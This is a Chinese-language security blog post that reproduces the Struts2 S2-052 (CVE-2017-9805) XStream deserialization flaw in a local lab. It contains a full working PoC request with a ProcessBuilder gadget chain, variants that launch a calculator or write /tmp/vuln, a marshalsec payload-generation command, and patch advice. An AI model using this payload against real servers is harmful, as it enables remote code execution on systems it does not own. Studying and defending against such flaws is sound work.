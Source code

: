 ```yaml
---
title: struts2-052漏洞
copyright: true
permalink: 1
top: 0
date: 2017-09-06 16:26:05
tags:
- struts2
categories: web安全
password:
---
```

<blockquote class="blockquote-center">From small beginnings comes great things
伟大始于渺小</blockquote>
　　今年struts2疯了，被爆出了很多高危漏洞，之前我研究过s_045、s_046漏洞，近期又出现了s_052漏洞。s_052漏洞危害稍微小一些，因为利用环境比较苛刻，需要使用Struts2 REST插件的XStream组件。
<!-- more -->
免责申明：*文章中的工具等仅供个人测试研究，请在下载后24小时内删除，不得用于商业或非法用途，否则后果自负*

### s2-052漏洞介绍
s2-052漏洞是当用户使用带有XStream组件的Struts-REST插件对XML格式的数据包进行反序列化操作时，未对数据内容进行有效验证，可直接在数据包中插入恶意代码。

漏洞编号：CVE-2017-9805（S2-052）
漏洞影响：Struts2.5 – Struts2.5.12版本。

### s2-052 poc
```bash
POST /struts2-rest-showcase/orders/3;jsessionid=A82EAA2857A1FFAF61FF24A1FBB4A3C7 HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:54.0) Gecko/20100101 Firefox/54.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/xml
Content-Length: 2365
Referer: http://127.0.0.1:8080/struts2-rest-showcase/orders/3/edit
Cookie: JSESSIONID=A82EAA2857A1FFAF61FF24A1FBB4A3C7
Connection: close
Upgrade-Insecure-Requests: 1

<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>
```

注意：执行命令的地方在于command内，这里是针对mac下的弹出计算器，如果是windows可改成calc.exe
```bash
<command>
<string>
/Applications/Calculator.app/Contents/MacOS/Calculator
</string>
</command>
```

### s2-052漏洞复现
#### mac install tomcat
在安装tomcat前，先检测一下mac上有没有安装java，可以运行java -version。
```bash
java version "1.8.0_111"
Java(TM) SE Runtime Environment (build 1.8.0_111-b14)
Java HotSpot(TM) 64-Bit Server VM (build 25.111-b14, mixed mode)
```
前往tomcat官网下载：http://tomcat.apache.org/download-80.cgi?from_33lc.com 选择下载Core下的tar.gz包到本地，然后解压。
将解压后到文件夹移动到/Library目录下,并命名为Tomcat；然后设置权限：
```bash
sudo chmod 755 /Library/Tomcat/bin/*.sh
```
进入/Library/Tomcat/bin/目录，运行启动tomcat
```bash
sudo sh startup.sh
```
访问：http://127.0.0.1:8080
注意：若要修改tomcat端口，可打开/Library/Tomcat/conf/server.xml文件，修改8080端口。

编写启动关闭tomcat脚本：
将以下内容写入tomcat文件中（自己创建）
```bash
#!/bin/bash
case $1 in
start)
sh /Library/Tomcat/bin/startup.sh
;;
stop)
sh /Library/Tomcat/bin/shutdown.sh
;;
restart)
sh /Library/Tomcat/bin/shutdown.sh
sh /Library/Tomcat/bin/startup.sh
;;
*)
echo “Usage: start|stop|restart”
;;
esac
exit 0
```
赋予文件权限：
```bash
chmod 777 tomcat
```
添加环境变量：
```bash
export PATH="$PATH:/Library/Tomcat/bin"
```
然后运行启动关闭tomcat：
```bash
sudo tomcat start
sudo tomcat stop
```
注：linux、windows安装tomcat方法都与之类似，这里不再演示。

#### 下载部署存在漏洞的struts2版本
从struts2的官网下载最后受影响的版本[struts-2.5.12](http://archive.apache.org/dist/struts/2.5.12/struts-2.5.12-apps.zip)解压后，将apps目录下的struts2-rest-showcase.war文件放到webapps目录下（/Library/Tomcat/webapps）重启tomcat后访问：http://127.0.0.1:8080/struts2-rest-showcase/

![](/upload_image/20170906/1.png)
由于burpsuite监控的端口也是8080，所以我将tomcat的端口改成8081了。

#### 构造post包
可以直接使用上面的poc发包，也可以自己抓取数据包重放，自己抓取的方式是点击页面上的编辑，然后点击submit提交，抓取post包，再修改post的body字段为此漏洞的poc。

#### 尝试不同的poc
网上使用最多的poc是弹出一个计算器，然而我在mac上测试发现弹出计算器失败了，因此换了一个写文件的poc，发现测试成功。

写文件poc：（会在/tmp/下生成vuln文件）
```bash
<command><string>/usr/bin/touch</string><string>/tmp/vuln</string> </command>
```
弹计算器poc
```bash
Mac:
<command><string>/Applications/Calculator.app/Contents/MacOS/Calculator</string></command>

windows:
<command><string>clac.exe</string></command>
```

### poc生成
```bash
java -cp marshalsec-0.0.1-SNAPSHOT-all.jar marshalsec.XStream ImageIO calc.exe > poc.txt
```
marshalsec-0.0.1-SNAPSHOT-all.jar网上可以下载，这里不给出地址了，自行搜索。

### 修补方法
* 升级Struts到2.5.13最新版本。
* 在不使用时删除Struts REST插件，或仅限于服务器普通页面和JSONs <constant name="struts.action.extension" value="xhtml,,json" />

### python验证脚本

https://github.com/ysrc/xunfeng/commit/f9ae69fe176c8bca622831e126cd94414ebe26f6?from=timeline&isappinstalled=0


### 参考文章
http://www.freebuf.com/vuls/146718.html
https://www.t00ls.net/thread-41942-1-1.html
http://www.imooc.com/article/6453
https://github.com/jas502n/St2-052/blob/master/README.md

### 传送门
[struts2-046漏洞](http://thief.one/2017/03/21/Struts2-046%E6%BC%8F%E6%B4%9E/)
[struts2_045漏洞](http://thief.one/2017/03/07/Struts2-045%E6%BC%8F%E6%B4%9E/)
[struts2漏洞poc汇总](http://thief.one/2017/03/13/Struts2%E6%BC%8F%E6%B4%9EPOC%E6%B1%87%E6%80%BB/)



